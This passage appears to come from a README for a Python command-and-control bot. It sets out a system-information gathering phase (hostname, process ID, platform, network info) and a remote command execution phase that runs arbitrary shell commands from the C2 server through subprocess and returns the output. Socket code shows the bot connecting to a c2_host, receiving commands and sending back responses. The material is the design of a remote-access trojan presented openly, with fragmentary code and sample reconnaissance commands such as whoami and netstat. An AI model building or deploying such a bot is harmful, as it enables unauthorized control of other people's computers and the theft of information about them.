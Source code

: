 
### **5. 📋 PHASE 5: SYSTEM INFORMATION GATHERING**

#### **System Info Collection:**
```bash
Command: INFO:
```
**Collected Data:**
- **Hostname**: Computer name
- **Process ID**: Bot process identifier  
- **Platform**: OS type (Windows/Linux/Mac)
- **Python Version**: Runtime environment
- **Current Time**: Timestamp
- **Working Directory**: Current path
- **Network Info**: IP, interfaces

---

### **6. 💻 PHASE 6: REMOTE COMMAND EXECUTION**

#### **Shell Command Execution:**
```bash
# Direct command execution
Command: ls -la
Command: whoami
Command: netstat -ant
Command: ps aux
```

**Execution Process:**
1. Receive arbitrary shell command
2. Execute via `subprocess.run()`
3. Capture stdout/stderr
4. Return structured response:
   ```
   CMD_RESULT:exit_code:stdout_output:stderr_output
   ```

**Security Constraints:**
- 30-second timeout per command
- Error handling để prevent crash
- Output truncation để prevent bandwidth abuse

---

## 🔧 **TECHNICAL IMPLEMENTATION DETAILS**

### **Network Communication:**
```python
# Connection establishment
socket = socket.socket(AF_INET, SOCK_STREAM)
socket.settimeout(10)
socket.connect((c2_host, c2_port))

# Command reception
data = socket.recv(1024).decode().strip()

# Response transmission  
socket.send(response.encode())
```
